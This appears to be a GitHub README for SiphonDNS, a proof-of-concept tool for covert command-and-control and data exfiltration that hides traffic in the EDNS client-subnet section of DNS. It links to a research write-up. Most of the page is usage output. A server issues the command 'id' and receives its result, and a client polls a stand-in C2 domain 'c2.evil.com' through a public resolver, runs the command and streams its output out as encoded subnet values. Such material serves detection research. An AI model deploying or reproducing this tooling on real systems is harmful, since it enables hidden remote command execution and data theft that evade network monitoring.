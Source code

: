 # SiphonDNS

A PoC for techniques described in [this research](http://ttp.report/evasion/tools/2025/02/03/siphondns-covert-dns-exfiltration.html).

Implements data exfiltration via non-standard sections of DNS. 

Server:
```
$ ./siphondns-server -method ecs
Starting DNS server
cmd> id
Command received
Receiving data............................................................................

Response:
 uid=1000(kali) gid=1000(kali) groups=1000(kali),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),100(users),106(netdev),118(wireshark),121(bluetooth),134(scanner),141(kaboxer)
```

Client:
```
./siphondns-client -domain 'c2.evil.com' -method ecs -resolver 8.8.8.8:53
Polling....OK
Executing command: id ... OK
Sending: 13.3.7.0 ... OK
Sending: 101.74.120.0 ... OK
Sending: 99.121.122.0 ... OK
Sending: 70.79.66.0 ... OK
Sending: 68.69.77.0 ... OK
Sending: 104.101.71.0 ... OK
Sending: 101.85.49.0 ... OK
Sending: 68.97.107.0 ... OK
Sending: 111.115.52.0 ... OK
Sending: 71.120.89.0 ... OK

...[SNIP]...

Sending: 104.74.119.0 ... OK
Sending: 65.65.47.0 ... OK
Sending: 47.57.56.0 ... OK
Sending: 57.107.71.0 ... OK
Sending: 1.84.0.0 ... OK
Sending: 7.3.13.0 ... OK
Done in 108 requests.
```